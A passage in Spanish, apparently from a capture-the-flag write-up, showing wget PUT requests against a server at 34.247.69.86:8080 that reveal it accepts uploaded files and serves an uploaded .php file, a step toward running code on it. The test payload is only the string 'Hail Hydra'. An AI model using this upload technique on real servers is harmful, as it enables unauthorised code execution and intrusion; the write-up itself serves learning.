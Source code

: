 El envío de una petición PUT se lleva a cabo con **wget** mediante la opción `--method=PUT`, acompañada de `--body-data` con el texto literal del cuerpo o `--body-file` y la ubicación de un fichero. Se intenta con un simple “Hail Hydra”.

```text
Z:\uam>wget -O - -q -S --content-on-error --method=PUT --body-data="Hail Hydra" http://34.247.69.86:8080/hailhydra
  HTTP/1.1 201 Created
  Server: nginx
  Date: Fri, 15 Feb 2019 19:33:44 GMT
  Content-Length: 0
  Location: http://34.247.69.86/hailhydra
  Connection: keep-alive
```

El código de respuesta 201 insufla esperanzas. Curiosamente, en la cabecera **Location** no consta ninguna referencia al puerto 8080. No obstante, ¿se puede acceder al nuevo recurso **hailhydra** a través de él?

```text
Z:\uam>wget -O - -q -S --content-on-error http://34.247.69.86:8080/hailhydra
  HTTP/1.1 403 Forbidden
  Server: nginx
  Date: Fri, 15 Feb 2019 19:33:58 GMT
  Content-Type: text/html; charset=UTF-8
  Transfer-Encoding: chunked
  Connection: keep-alive
  X-Powered-By: PHP/7.2.10
Access denied.
```

El resultado es un error 403 con un mensaje de acceso denegado; descorazonador, pero no todo está perdido. La prueba con la extensión **.php** sí resulta satisfactoria.

```text
Z:\uam>wget -O - -q -S --content-on-error --method=PUT --body-data="Hail Hydra" http://34.247.69.86:8080/hailhydra.php
  HTTP/1.1 201 Created
  Server: nginx
  Date: Fri, 15 Feb 2019 19:34:42 GMT
  Content-Length: 0
  Location: http://34.247.69.86/hailhydra.php
  Connection: keep-alive

Z:\uam>wget -O - -q -S --content-on-error http://34.247.69.86:8080/hailhydra.php
  HTTP/1.1 200 OK
  Server: nginx
  Date: Fri, 15 Feb 2019 19:34:48 GMT
  Content-Type: text/html; charset=UTF-8
  Transfer-Encoding: chunked
  Connection: keep-alive
  X-Powered-By: PHP/7.2.10
Hail Hydra
```
